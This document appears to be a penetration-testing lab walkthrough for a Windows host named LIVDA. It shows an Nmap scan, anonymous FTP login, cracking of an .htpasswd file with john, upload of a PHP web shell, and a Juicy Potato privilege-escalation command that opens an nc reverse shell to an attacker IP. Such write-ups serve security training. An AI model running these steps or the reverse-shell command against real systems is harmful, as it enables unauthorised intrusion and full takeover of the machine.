



_____

>[!INFO]
> IP=192.168.229.46
> Windows

# Nmap

```python
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Feb 13 01:07 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Feb 18  2023 accounts
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth:
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2023-01-28T03:26:23
|_Not valid after:  2023-07-30T03:26:23
|_ssl-date: 2024-02-12T17:07:31+00:00; -5h59m50s from scanner time.
| rdp-ntlm-info:
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-02-12T17:07:23+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


# 21 - ftp



ftp $IP 
admin:admin



```bash
john --wordlist=/usr/share/seclists/rockyou.txt .htpasswd
offsec:elite
```


```bash
put shell.php
```

```
http://192.168.229.46:242/shell.php?cmd=dir
```



# PrivEsc
We can perform privilege escalation using Juicy Potato.
However, there are two challenges.
- This is an x86 system, so we need an x86 Juicy Potato executable. I used the one from here: https://github.com/ivanitlearning/Juicy-Potato-x86/releases
- The default CLSID doesn't work. Juicy Potato will return `COM -> recv failed with error: 10038`.


We can use one of the BITS CSLIDs from here https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise

```cmd
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.45.189 443" -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```
